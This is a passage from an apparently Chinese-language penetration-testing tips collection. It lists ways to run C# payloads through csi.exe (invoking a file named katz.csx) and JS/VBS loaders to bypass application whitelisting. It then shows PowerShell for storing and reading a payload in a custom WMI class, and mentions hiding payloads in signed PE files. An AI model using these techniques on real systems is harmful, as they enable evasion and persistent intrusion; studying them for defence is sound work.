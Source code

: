 参考：

[《Use MSBuild To Do More》](https://3gstudent.github.io/3gstudent.github.io/Use-MSBuild-To-Do-More/)

#### 方法5：通过csi.exe

```
"C:\Program Files (x86)\MSBuild\14.0\Bin\csi.exe" c:\test\katz.csx
```

参考：

[《Study Notes Weekly No.4(Use tracker to load dll & Use csi to bypass UMCI & Execute C# from XSLT file)》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-Weekly-No.4(Use-tracker-to-load-dll-&-Use-csi-to-bypass-UMCI-&-Execute-C-from-XSLT-file)/)

#### 方法6：通过js/vbs脚本

https://gist.github.com/subTee/5c636b8736530fb20c3d

https://gist.github.com/subTee/b30e0bcc7645c790fcd993cfd0ad622f

参考：

[《利用JS加载.Net程序》](https://3gstudent.github.io/3gstudent.github.io/%E5%88%A9%E7%94%A8JS%E5%8A%A0%E8%BD%BD.Net%E7%A8%8B%E5%BA%8F/)

---

### Tips 26. Windows系统中可供存储和读取payload的位置

#### 方法1：WMI

存储：

```
$StaticClass = New-Object Management.ManagementClass('root\cimv2', $null,$null)
$StaticClass.Name = 'Win32_Command'
$StaticClass.Put()
$StaticClass.Properties.Add('Command' , $Payload)
$StaticClass.Put() 
```

读取：

```
$Payload=([WmiClass] 'Win32_Command').Properties['Command'].Value
```

参考：

《WMI Backdoor》

#### 方法2：包含数字签名的PE文件

利用文件hash的算法缺陷，向PE文件中隐藏Payload，同时不影响该PE文件的数字签名

参考：

[《隐写技巧-在PE文件的数字证书中隐藏Payload》](https://github.com/3gstudent/Pentest-and-Development-Tips/edit/master/README.md)
